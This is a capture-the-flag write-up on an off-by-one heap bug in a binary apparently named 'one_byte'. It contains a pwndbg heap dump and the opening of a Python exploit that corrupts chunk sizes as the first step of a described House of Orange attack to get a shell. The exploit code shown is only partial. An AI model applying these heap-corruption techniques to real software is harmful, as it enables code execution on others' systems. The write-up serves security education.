 It also allows `editing` a chunk. \
There is a check that the chunk wasn't freed, so there is no UAF bug here. 

Finally, it allows us to read the content of an allocated chunk (doesn't work for `freed` chunks).

A very cool trick to trace the internal functions used by Malloc at glibc, is by executing the binary via: `ltrace -e \*alloc ./one_byte`. \ 
We can see allocations are performed via `calloc(1, 0x58)`. \
It means chunks are initialized to zero, hence mitigated against "reuse attacks". 


### Bug

The bug is an off-by-one byte on the heap. \
For example, overwriting the LSB of the top chunk `size`:

```bash
pwndbg> vis

0x555555603000  0x0000000000000000      0x0000000000000061      ........a.......
0x555555603010  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x555555603020  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x555555603030  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x555555603040  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x555555603050  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x555555603060  0x4141414141414141      0x0000000000020f41      AAAAAAAAA.......
```

It means not only we can fake the `size` of the succeeding chunk, but we can also corrupt its `flags`. \
For example, disabling the `PREV_INUSE` bit - treating the current chunk as a free. 


### Exploit

POC of getting a shell, via off-by-one vulnerability. \
This exploit first leaks libc and heap addresses, then uses `House of Orange` technique to get a shell. 

```python
############# LEAK LIBC ##################
# Request a chunk.
chunk_A = malloc()
# Victim chunk, whom size will be corrupted
chunk_B = malloc()
# Extra allocation, so we will have heap metadata right after chunk_B
chunk_C = malloc()
# My goal in this code snippetis to set an unsorted chunk of arbitrary length (0x90) to the unsortedbin.
#
# Because of libc mitigations, we first have to make sure the "succeeding chunk" after it, chunk_C, contains its PREV_INUSE bit set. 
# Thats why I've overwrite chunk_C first.
# However, since chunk_B is faked to seem larger, it actually thinks its succeeding chunk starts at extra offset of (0x90-0x60). 
# Also Note that in order to also avoid forward consolidation with our offseted-chunk_C, we have to set chunk_C "succeeding chunk" PREV_INUSE to 1. 
# It can be achieved by setting C fake size to 0x21, and filling at offset 0x20 a quadword that has LSB of 1.
new_chunk_B_size = 0x91
chunk_C_padding = ((new_chunk_B_size & 0xfffffff0) - 0x60) - 0x10
fake_prev_size = new_chunk_B_size
fake_size = 0x21
fake_fd = b"C" * 8
fake_bk = b"C" * 8
fake_next_chunk_prev_size = p64(0)
fake_next_chunk_size = p64(0x21)
```